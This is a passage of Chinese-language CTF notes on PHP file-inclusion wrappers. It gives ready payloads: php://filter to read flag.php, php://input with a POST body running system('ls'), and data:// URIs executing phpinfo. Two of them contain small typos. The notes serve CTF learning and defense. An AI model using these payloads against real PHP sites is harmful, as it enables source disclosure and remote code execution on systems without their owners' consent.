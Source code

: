 ```
直接读文件：php://filter/resourse=flag.php
加密文件内容：php://filter/read=convert.base64-encode/resource=flag.php
```

##### php://input协议

该协议可以访问请求的请求数据的只读流，将post请求的数据当作php代码执行。当传入的参数作作为文件名打开时，可以将参数设置为php://input，同时post想设置的文件内容，php代码执行时会***将post内容当作文件内容***

```
?file=php://input
POST: <?php system('ls');?>
```

#### data://协议

在CTF中，该协议基本用来执行PHP代码，一般需要用到base64传输，保证特殊字符的传递

此时要求：

```
allow_url_fopen:on
allow_url_include :on
php>V5.2
```

格式为

```php
协议头（data://）+text/plain(;base64),+ 明（密）文
```



##### 用法为：

```php
//传输明文：
?file=data://text/plain,<php phpinfo()?>
//传输base64编码:
?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4= 
```

